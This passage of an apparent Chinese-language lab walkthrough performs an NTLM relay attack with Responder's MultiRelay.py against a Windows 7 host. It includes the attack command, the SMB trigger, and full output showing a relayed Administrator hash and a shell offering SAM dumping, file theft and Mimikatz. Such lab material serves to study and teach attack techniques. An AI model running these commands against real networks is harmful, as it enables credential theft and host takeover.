 ```
python3 MultiRelay.py -t 172.16.56.11 -u ALL
```

**4. win sever 2008 操作**

> 随便上传点SMB流量 :smile:
>
> ```
> net use \\wuqian
> ```

**拿到win7的shell**

```shell
┌──(root💀kali)-[/usr/share/responder/tools]
└─# python3 MultiRelay.py -t 172.16.56.11 -u ALL

Responder MultiRelay 2.5 NTLMv1/2 Relay

Send bugs/hugs/comments to: laurent.gaffie@gmail.com
Usernames to relay (-u) are case sensitive.
To kill this script hit CTRL-C.

/*
Use this script in combination with Responder.py for best results.
Make sure to set SMB and HTTP to OFF in Responder.conf.

This tool listen on TCP port 80, 3128 and 445.
For optimal pwnage, launch Responder only with these 2 options:
-rv
Avoid running a command that will likely prompt for information like net use, etc.
If you do so, use taskkill (as system) to kill the process.
*/

Relaying credentials for these users:
['ALL']


Retrieving information for 172.16.56.11...
SMB signing: False
Os version: 'Windows 7 Professional 7601 Service Pack 1'
Hostname: 'JOHN-PC'
Part of the 'CORP' domain
[+] Setting up SMB relay with SMB challenge: 2a92d665043bd7d4
[+] Received NTLMv2 hash from: 172.16.56.10 
[+] Client info: ['eWindows Server 2008 HPC Edition 7601 Service Pack 1', domain: 'CORP', signing:'False']                                                                          
[+] Username: Administrator is whitelisted, forwarding credentials.
[+] SMB Session Auth sent.
[+] Looks good, Administrator has admin rights on C$.
[+] Authenticated.
[+] Dropping into Responder's interactive shell, type "exit" to terminate

Available commands:
dump               -> Extract the SAM database and print hashes.
regdump KEY        -> Dump an HKLM registry key (eg: regdump SYSTEM)
read Path_To_File  -> Read a file (eg: read /windows/win.ini)
get  Path_To_File  -> Download a file (eg: get users/administrator/desktop/password.txt)
delete Path_To_File-> Delete a file (eg: delete /windows/temp/executable.exe)
upload Path_To_File-> Upload a local file (eg: upload /home/user/bk.exe), files will be uploaded in \windows\temp\
runas  Command     -> Run a command as the currently logged in user. (eg: runas whoami)
scan /24           -> Scan (Using SMB) this /24 or /16 to find hosts to pivot to
pivot  IP address  -> Connect to another host (eg: pivot 10.0.0.12)
mimi  command      -> Run a remote Mimikatz 64 bits command (eg: mimi coffee)
```